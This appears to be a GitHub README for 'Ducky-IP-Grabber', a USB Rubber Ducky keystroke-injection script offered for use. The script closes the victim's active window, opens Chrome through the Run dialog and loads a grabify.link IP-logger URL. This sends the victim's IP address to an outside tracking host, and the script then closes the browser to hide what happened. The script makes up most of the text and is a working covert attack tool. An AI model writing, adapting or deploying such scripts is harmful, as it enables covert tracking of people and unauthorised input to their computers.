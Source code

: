 # Ducky-IP-Grabber
USB rubber ducky script to pull IPs

Pull IPs with this simple Ducky script


`REM Author: Cyber Coding
REM Ducky for getting IPs 
REM Only works if the user has chrome
Delay 5000
REM ----------- opens chrome web browser
ALT f4
Delay 3000
GUI r
DELAY 500
STRING chrome
DELAY 600
ENTER
DELAY 3000
REM ----------- gets IPS
STRING https://grabify.link/3K27ZM
DELAY 3000
ENTER
DELAY 2000
ALT f4`
